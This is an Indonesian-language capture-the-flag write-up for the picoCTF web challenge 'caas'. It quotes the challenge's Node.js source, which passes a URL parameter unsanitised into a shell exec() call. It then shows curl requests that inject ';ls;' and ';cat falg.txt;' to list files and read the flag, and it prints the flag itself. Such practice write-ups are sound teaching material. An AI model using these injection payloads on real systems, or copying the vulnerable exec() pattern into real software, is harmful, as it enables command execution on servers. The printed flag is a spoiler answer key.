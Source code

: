 # caas
- Link: https://play.picoctf.org/practice/challenge/202?category=1&page=2

## Tantangan
Now presenting [cowsay as a service](https://caas.mars.picoctf.net/)

## Penyelesaian
- Buka URL https://caas.mars.picoctf.net/ di browser

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/caas/assets/caas%201.JPG)

- Dari petunjuk diatas kita bisa melakukan request ke `https://caas.mars.picoctf.net/cowsay/{message}`. Sekarang kita coba isi parameter `message` dengan `test` lalu kirim menggunakan tool `curl`
```sh
curl https://caas.mars.picoctf.net/cowsay/test
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/caas/assets/caas%202.JPG)

- Di tantangan tersebut, terdapat lampiran file `index.js` yang berisi source code sebagai berikut
```sh
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```
- Di source code diatas terdapat fungsi `exec()` dimana fungsi ini akan menjalankan perintah `shell` sehingga kita melakukan serangan OS command injection dengan mem by pass paramter `message` di URL. Sekarang kita coba injeksikan perintah `ls`
```sh
curl "https://caas.mars.picoctf.net/cowsay/test;ls;"
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/caas/assets/caas%203.JPG)

- Dari hasil diatas terdapat file `falg.txt` yang berisi flag. Sekarang kita coba injeksikan perintah untuk membaca isi file tersebut
```sh
curl "https://caas.mars.picoctf.net/cowsay/test;cat%20falg.txt;"
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/caas/assets/caas%204.JPG)

- Flag
```sh
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```